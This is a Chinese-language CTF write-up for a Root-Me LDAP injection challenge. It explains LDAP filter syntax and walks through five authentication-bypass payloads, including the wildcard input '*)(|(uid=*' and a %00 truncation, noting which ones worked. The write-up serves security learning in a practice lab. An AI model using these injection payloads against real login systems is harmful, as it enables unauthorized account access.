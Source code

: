## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[LDAP injection - authentication](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-authentication)] [[解题报告](http://exp-blog.com/2019/03/11/pid-3549/)]

------


## 前置知识

知道原理其实就是很水的一道题。

关于 LDAP 的前置知识可以参考这几篇文章：

- [LDAP Injection & Blind LDAP Injection](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Blackhat%20Europe%202008%20%20-%20LDAP%20Injection%20&%20Blind%20LDAP%20Injection.pdf)
- [LDAP注入与防御剖析](https://blog.csdn.net/quiet_girl/article/details/50716312)
- [LDAP注入漏洞与防御](https://www.jianshu.com/p/d94673be9ed0)

------------

## 相关语法


这里简单解释一下， LDAP（Lightweight Directory Access Protocol，轻量级目录访问协议）其实就是**数据库的一种替代形式**，其原理是以目录树结构存储数据，不过它的语法比传统数据库要稍微简单一点。

与本题相关的一些 LDAP 语法：

- `WHERE A=xxx AND B=yyy` ，转变成 LDAP 语法就是 `(&(A=xxx)(B=yyy))`
- `WHERE A=xxx OR B=yyy` ，转变成 LDAP 语法就是 `(|(A=xxx)(B=yyy))`
- `WHERE A LIKE 'x%'` ，转变成 LDAP 语法就是 `(&(A=x*)(B=*))` 或 `(&(A=x*)(&))`（注：`(&)`是永真式）
- 支持嵌套，如： `(&(A=xxx)(|(A=xxx)(C=zzz)))`

> LDAP 把括号称之为【过滤器】，所有元素/操作都必须在括号内

------------

## 找到注入点

知道这些就可以解题了。

注意题目要求是【**绕过登陆校验**】。

开启挑战后要求输入账号密码，因为知道是 LDAP ，那么就尝试闭合括号令其语法报错，看看会不会返回一些有用的异常信息。

输入探针 Username  = `admin)` ， Password = `123456` ，页面回显异常：

`ERROR : Invalid LDAP syntax : (&(uid=admin))(userPassword=123456))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B35%5D%20%5B35P%5D%20LDAP%20injection%20-%20authentication/imgs/01.png)

很明显，用于登陆验证的 LDAP 代码逻辑为：

`(&(uid=[username])(userPassword=[password]))`

其中 `[username]` 和 `[password]` 就是我们可控的注入点。

------------

## 构造 payload

其实知道这两个注入点，绕过密码的注入方式就可以很灵活了（我至少想到了 5 种注入方法），关键是题目对 LDAP 的语法校验有多严格，这直接决定有效的 payload 数量。

------------

### 方法一：正确账号+嵌套式

构造 payload ：

- username = `账号)(|(uid=账号`
- password = `exp)`

实际拼接成的 payload 为：`(&(uid=账号)(|(uid=账号)(userPassword=exp)))`

这个 payload 先计算后面的 **或运算**，当 `账号` 正确的时候，由于 `(uid=账号)` 为真，所以无论 `userPassword` 输入任何值，整个条件式都是真，从而实现**密码绕过**。所以这个 payload 的**关键是找到正确的账号** （相比于猜密码，账号会更好猜）。

可以猜到的 `账号` 有 4 个：

- admin
- administrator
- root
- ch25 （这是从 URL 取到的题号，从 rootme 的经验上看，题号经常就是账号）

 逐个账号试，发现 `ch25` 果然就是账号，得到密码（回显被加密，需要看源码），完成挑战：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B35%5D%20%5B35P%5D%20LDAP%20injection%20-%20authentication/imgs/02.png)

------------

### 方法二：模糊匹配+嵌套式

相较于方法一，其实有另一个更巧妙的方法，可以构造这样的 payload ：

- username = `*)(|(uid=*`
- password = `exp)`

实际拼接成的 payload 为：`(&(uid=*)(|(uid=*)(userPassword=exp)))`

这个 payload 先计算后面的 **或运算**，而且由于 `(uid=*)` 是模糊匹配，必定永真（连账号也不用猜），所以无论 `userPassword` 输入任何值，整个条件式都是永真。

此方法在本题可以成功绕过验证，得到密码。

> 使用模糊匹配的前提是 `*` 没有被过滤，否则也是只能猜账号，但一般来说，账号比密码更好猜。

------------


### 方法三：永真式+解析器截断

构造 payload （此方式同样要求猜测正确的账号以绕过，由于已经知道是 `ch25` 就不猜了）：

- username = `ch25)(&)`
- password = `exp`

实际拼接成的 payload 为：`(&(uid=ch25)(&))(userPassword=exp))`

注意这个 payload 的前半部分 `(&(uid=ch25)(&))` 语法是正确的，但后半部分 `(userPassword=exp))` 因为括号没有配对，是语法错误的。

在某些对 LDAP 语法校验不严谨的题型，依然会从左到右执行，直到报错为止，因此这个 payload 在某些环境是可以实现绕过的。但是很明显这题不行：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B35%5D%20%5B35P%5D%20LDAP%20injection%20-%20authentication/imgs/03.png)

------------

### 方法四：永真式+%00截断

构造 payload （此方式同样要求猜测正确的账号以绕过，由于已经知道是 `ch25` 就不猜了）：

- username = `ch25)(&))%00`
- password = `exp`

实际拼接成的 payload 为：`(&(uid=ch25)(&))%00)(userPassword=exp))`

这与方法三很类似，只是截断依赖于 `%00` 而非解析器。

`%00` 是 C 或 PHP 的字符串终止符 `\0` 的 URL 编码，只要这个字符没有被过滤，在 LDAP 校验严谨的环境下也能对语法错误的 LDAP 进行截断。但是很明显这题不行：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B35%5D%20%5B35P%5D%20LDAP%20injection%20-%20authentication/imgs/04.png)


------------

### 方法五：串行过滤器

构造 payload （此方式同样要求猜测正确的账号以绕过，由于已经知道是 `ch25` 就不猜了）：

- username = `ch25)(uid=ch25)) (&(1=0`
- password = `exp`

实际拼接成的 payload 为：`(&(uid=ch25)(uid=ch25)) (&(1=0)(userPassword=exp))`

此方法构造了两个过滤器，在语法校验不严谨的 LDAP 中，只会执行第一个过滤器 `(&(uid=ch25)(uid=ch25))` ，而第二个过滤器 `(&(1=0)(userPassword=exp))` 则不会被执行，从而可以实现密码绕过。

而对于第一个过滤器，只要账号是正确的，就必定为真。不过此方式在本题也行不通：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B35%5D%20%5B35P%5D%20LDAP%20injection%20-%20authentication/imgs/05.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
